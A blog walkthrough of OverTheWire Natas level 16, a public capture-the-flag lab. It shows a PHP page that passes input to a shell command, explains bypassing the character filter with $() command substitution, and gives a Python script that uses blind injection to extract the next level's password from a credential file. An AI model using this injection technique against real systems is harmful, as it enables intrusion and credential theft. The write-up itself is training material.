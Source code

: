 ```yaml
---
title: "Overthewire Natas 16 Walkthrough"
layout: post
date: 2018-01-24 22:44
image: /assets/images/markdown.jpg
headerImage: false
tag:
- ctf
- overthewire
- natas
- wargames
star: true
category: blog
author: Hisham Alshaikh
description: This is just a walkthrough for overthewire's natas level 16
---
```


## Challenge

![Markdown Image](/assets/images/natas_16_solution/challenge_page.png)

{% highlight php %}
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
{% endhighlight %}


The goal of this level is that we need to bypass the regex filter in order to be able to read the flag in /etc/natas_webpass/natas17. 

## Solution

Reading the source code of the page we can find out that that there is a regex filterzation, and we have to not to use any of the characters in the preg_match() function, so we go the passthru() function to inject and execute a custom command since we have control over the variable $key.

We can use $() in order to inject our commands to the passthru() function, since none of the characters of $() exists in preg_match() filter.

so the final command after injection will look like the following:
{% highlight shell %}
grep -i $(grep /etc/natas_webpass/natas17) dictionary.txt
{% endhighlight %}

We can mimic the same scienario in our local termianl, so we have a better understanding of the situation and how we are gonna solve this challenge. 

Mimicing the challenge, I am going to make some files

flag.txt content
{% highlight raw %}
dGhpc2lzYXRlc3Rtb3RoZXJmdWNrZXJ5b29tYW1hYWFuCg==
{% endhighlight %}

So if we use the following command
{% highlight shell %}
grep -i $(grep ^d /tmp/flag.txt) /etc/passwd
{% endhighlight %}

As we can see the string in flag.txt starts with a 'd', so if we use '^' in order to know the characters in order in the flag file. Starting out with 'd' since flag starts with 'd', the commands will return no result; however, if we choose a character other than 'd' the terminal will hang with result return. This way we will be able to figure out the flag content for this challenge, so we can go to the next level.

Here is the complete solution code for this level.


{% highlight python %}
#!/usr/bin/python
#h15h4m

# way better than the other libs
import requests
from requests.auth import HTTPBasicAuth


chars_to_check = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
string_to_find = "Output:\n<pre>\n</pre>"

target = "http://natas16.natas.labs.overthewire.org/"
http_login=HTTPBasicAuth('natas16','WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

password_chars = ''
password = ''

r = requests.get(target , auth=http_login)

if r.status_code != requests.codes.ok:
	print "[-] Unable to access. Check Authentication."
	exit()

print "[!] cool. We are in!"

print "[!] finding password chars...."

#lets find password chars first easier for brute force later
for x in chars_to_check:
	r = requests.get(target + "?needle=$(grep "+ x +" /etc/natas_webpass/natas17)",auth=http_login )	
	if r.content.find(string_to_find) != -1:
		password_chars = password_chars + x
		
print '[+] password chars: '  +   password_chars

print '[!] brut3 f0rc1ng the p455w0rd......'
for x in range(32):
	for xx in password_chars:
		r = requests.get(target + "?needle=$(grep ^"+ password + xx +" /etc/natas_webpass/natas17)",auth=http_login )
		if r.content.find(string_to_find) != -1:
			password += xx
			break
	
print "[+] password: " + password
{% endhighlight %}


Executing the code
![Markdown Image](/assets/images/natas_16_solution/final_results_.png)
